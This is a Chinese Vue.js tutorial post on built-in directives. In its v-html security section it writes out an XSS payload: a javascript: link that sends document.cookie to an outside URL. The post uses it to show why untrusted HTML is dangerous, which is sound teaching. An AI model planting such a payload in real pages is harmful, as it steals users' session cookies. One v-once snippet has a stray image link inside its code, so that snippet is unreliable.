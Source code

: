 ```yaml
---
author: "li_mingxie"
title: "【Vue笔记】Vue入门简介_内置指令(14)"
date: 2022-06-12T23:55:49+08:00
tags: [
    "vue",
]
categories: [
    "vue",
]
---
```


这一篇整理了内置指令相关的内容。  

#### 内置指令

​​**v-bind**​​​：单向绑定解析表达式，可简写为 ​​:xxx​​​​
**v-model**​​：双向数据绑定
​​**v-for​​**：遍历数组/对象/字符串
​​**v-on​​**：绑定事件监听,可简写为​​@​​​​
**v-if**​​：条件渲染（动态控制节点是否存在)
​​**v-else​​**：条件渲染（动态控制节点是否存在)
​​**v-show​​**：条件渲染(动态控制节点是否展示)

#### v-text

1、作用：向其所在的节点中渲染文本内容
2、与插值语法的区别:​​​v-text​​​会替换掉节点中的内容，​​{{xx}}​​则不会

```html
<div id="app">
    <h2>{{msg}}</h2>
    <h2 v-text="msg"></h2>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"Hello world"
        }
    })
</script>
```

#### v-html

1.作用：向指定节点中渲染包含html结构的内容
2.与插值语法的区别：
(1).v-html 会替换掉节点中所有的内容，{{xx}}则不会
(2).v-html 可以识别 html 结构
3.严重注意：v-html 有安全性问题!!!
(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击
(2).一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上!

```html
<div id="app">
    <div>{{msg}}</div>
    <div v-text="msg"></div>
    <div v-html="msg"></div>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"<h3>Hello world</h3>"
        }
    })
</script>
```

#### 安全性问题

```html
<div id="app">
    <div>{{msg}}</div>
    <div v-text="msg"></div>
    <div v-html="msg"></div>
    <div v-html="msg2"></div>
    <div v-html="msg3"></div>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"<h3>Hello world</h3>",
            msg2:"<a href=javascript:alert(1)>资源，速来</a>",
            msg3:'<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>资源，速来</a>'
        }
    })
</script>
```

HttpOnly 是包含在 http 返回头Set-Cookie 里面的一个附加的 flag，  
所以它是后端服务器对 cookie设置的一个附加的属性，在生成 cookie 时使用 HttpOnly 标志有助于减轻客户端脚本访问受保护 cookie 的风险

#### v-cloak

1.本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 ​​​v-cloak​​​属性
2.使用 css 配合 ​​​v-cloak​​​ 可以解决网速慢时页面展示出​​{{xxx}}​​的问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title></title>
    <style>
        /*选中标签中包含 v-cloak*/
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>
<div id="app">
    <div v-cloak>{{msg}}</div>
    <!--如果引入了外部js，而且返回时间长，那么页面会闪现-->
    <script type="text/javascript" src="../js/vue.js"></script>
</div>
<!--这里标签内容只有在上边js加载完后才执行-->
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            msg:"Hello world"
        }
    })
</script>
</body>
</html>
```

#### v-once

1.​​​v-once​​​所在节点在初次动态渲染后，就视为静态内容了
2.以后数据的改变不会引起​​​v-once​​所在结构的更新，可以用于优化性能

```html
<div id="app">
    <h2 v-once>n的初始值：{{n}}</h2>
    <h2>n的当前值：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            n:1![在这里插入图片描述](https://img-blog.csdnimg.cn/8b0057d61e9b43848788b3c01f712058.gif#pic_center)

        }
    })
</script>
```

#### v-pre

1.跳过其所在节点的编译过程
2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

```html
<div id="app">
    <h2 v-pre>Vue其实很简单</h2>
    <h2 v-pre>n的当前值：{{n}}</h2>
    <h2>n的当前值：{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
    Vue.config.productionTip = false

    //创建vue实例
    new Vue({
        el: "#app",
        data: {
            n:1
        }
    })
</script>
```

----------------------------------------------
欢迎大家的意见和交流

`email: li_mingxie@163.com`
